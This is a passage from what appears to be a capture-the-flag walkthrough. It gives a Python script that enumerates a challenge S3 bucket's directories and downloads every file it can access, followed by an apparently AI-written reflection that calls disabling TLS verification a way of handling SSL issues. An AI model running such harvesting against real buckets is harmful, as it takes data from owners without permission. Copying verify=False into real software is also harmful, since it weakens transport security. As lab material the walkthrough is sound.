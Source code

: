     if response.status_code == 200:
        prefixes = re.findall(r'<Prefix>(.*?)</Prefix>', response.text)
        print('Directories discovered:')
        for prefix in prefixes:
            if prefix == '':
                print('/')
            else:
                print(prefix)
            new_url = f"https://s3.amazonaws.com/dev.challenge.com?list-type=2&prefix={prefix}&delimiter=%2F&encoding-type=url"
            response = requests.get(new_url)
            if response.status_code == 200:
                keys = re.findall(r'<Key>(.*?)</Key>', response.text)
                for key in keys:
                    if key == prefix:
                        pass
                    else:
                        print(f'File Discovered - {key}')
                        download_url = f'https://s3.amazonaws.com/dev.challenge.com/{key}'
                        print(f'Downloading {key}')
                        file_response = requests.get(download_url, stream=True, verify=False)
                        if file_response.status_code == 200:
                            if not key.endswith('/'):
                                file_path = os.path.join(directory_name, key)
                                os.makedirs(os.path.dirname(file_path), exist_ok=True)
                                with open(file_path, 'wb') as file:
                                    for data in file_response.iter_content(1024):
                                        file.write(data)
                                    print(f'{key} downloaded.')
            elif response.status_code == 403:
                print('We do not have permissions to access this directory.')
            else:
                print('Something is causing us to not be able to access the bucket.')
    elif response.status_code == 404:
        print('Bucket does not exist.')
    elif response.status_code == 403:
        print('We do not have permissions to access this bucket.')
    else:
        print('Something is causing us to not be able to access the bucket.')
    ```

<reflection>
The code now successfully downloads files from the S3 bucket and saves them to the specified directory. The `download_url` is constructed correctly. The `os.makedirs()` function ensures that the directory structure is created before saving the file. The error handling for file downloads is in place. The use of `stream=True` and `verify=False` allows for downloading files efficiently and handling potential SSL issues.
</reflection>

## 8. Retrieve the Flag
